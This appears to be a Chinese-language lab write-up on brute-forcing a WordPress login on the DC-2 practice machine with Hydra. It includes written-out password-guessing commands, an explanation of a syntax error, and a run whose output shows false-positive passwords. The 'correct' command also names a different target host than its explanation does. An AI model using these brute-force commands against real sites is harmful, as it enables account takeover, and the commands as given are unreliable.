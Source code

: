 
# hydra的破解

```
┌──(root㉿kali)-[/home/kali]
└─# hydra -l admin -P /p.txt -s http://dc-2/wp-login.php -m "username=^USER^&password=^PASS^:The password you entered for the username admin is incorrect" -v
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-24 19:21:26
[ERROR] Invalid target definition!
[ERROR] Either you use "www.example.com module [optional-module-parameters]" *or* you use the "module://www.example.com/optional-module-parameters" syntax!

```

1. ​**参数混淆**：错误使用了 `-s`（指定端口）和 `-m`（模块参数）参数，导致目标定义语法错误。
2. ​**协议模块未明确**：未正确指定 `http-post-form` 模块，且参数格式不符合其要求。
3. ​**字段名不匹配**：WordPress 的登录表单字段通常为 `log`（用户名）和 `pwd`（密码），而非 `username`/`password`。

### **正确命令及解释**

bash

```bash
hydra -l admin -P /p.txt internal.thm http-post-form \
"/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username admin is incorrect" -v -f
```

#### ​**参数解析**：

1. ​**目标地址**：`dc-2`（假设目标主机名为 `dc-2`，若需指定端口可加 `-s 80` 或 `-s 443`）。
2. ​**协议模块**：`http-post-form`（必须显式声明）。
3. ​**模块参数**：
    - `/wp-login.php`：登录页面的路径（非完整 URL）。
    - `log=^USER^&pwd=^PASS^`：POST 参数，`^USER^` 和 `^PASS^` 为 Hydra 占位符。
    - `The password... incorrect`：失败响应内容，用于过滤错误尝试。
4. ​**其他选项**：
    - `-v`：显示详细输出。
    - `-f`：找到第一个有效密码后立即停止。

但发现很多密码都可以进去 应该是设置错参数了

```
─# hydra -l tom -P /home/kali/p.txt dc-2 http-post-form \
"/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username admin is incorrect" -v
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-24 19:32:12
[DATA] max 16 tasks per 1 server, overall 16 tasks, 238 login tries (l:1/p:238), ~15 tries per task
[DATA] attacking http-post-form://dc-2:80/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username admin is incorrect
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[80][http-post-form] host: dc-2   login: tom   password: orci
[STATUS] attack finished for dc-2 (waiting for children to complete tests)
[80][http-post-form] host: dc-2   login: tom   password: quis
[80][http-post-form] host: dc-2   login: tom   password: non
[80][http-post-form] host: dc-2   login: tom   password: luctus
[80][http-post-form] host: dc-2   login: tom   password: ante
[80][http-post-form] host: dc-2   login: tom   password: amet
```